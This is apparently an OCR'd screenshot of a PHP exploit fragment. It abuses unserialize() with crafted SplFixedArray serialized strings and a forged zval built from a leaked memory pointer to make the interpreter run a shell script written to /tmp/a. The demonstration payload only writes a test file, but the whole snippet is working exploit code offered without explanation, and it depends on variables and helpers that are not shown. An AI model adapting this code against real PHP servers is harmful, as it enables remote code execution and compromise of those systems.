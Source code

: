  ```Php
$data1 = unserialize($a);
$y = $data1[2][2];
$y[0] = $system[0];
$y[1] = $system[1];
$y[2] = $system[2];
$y[3] = $system[3];
$y[4] = $system[4];
$y[5] = $system[5];
$y[6] = $system[6];
$y[7] = $system[7];

file_put_contents("/tmp/a", "bash -c 'echo 123 > /tmp/hello'");

$inner_1 = 'x:3;i:0;i:0;i:1;s:8:"AAAAAAAA";i:2;?:2;';
$fakezval_1 = "sh /*/a;";
$fakezval_1 .= ptr2str($bss-8);
$fakezval_1 .= "\x01\x00\x00\x00";
$fakezval_1 .= "\x05";
$fakezval_1 .= "\x00";
$fakezval_1 .= "\x00\x00";
$inner_2 = 's:'.strlen($fakezval_1).':"'.$fakezval_1.'"';
$mid_1 = 'x:6;i:0;s:1:"0";i:1;s:1:"1";i:2;C:13:"SplFixedArray":'.strlen($inner_1).':{'.$inner_1.'}i:3;'.$inner_2.';i:4;'.$inner_2.';i:5;'.$inner_2.';';
$a_1 = 'C:13:"SplFixedArray":'.strlen($mid_1).':{'.$mid_1.'}';
$data_8 = unserialize($a_1);
$data_8[2][2] = 1;

echo "Done!\n";
?>
 ```

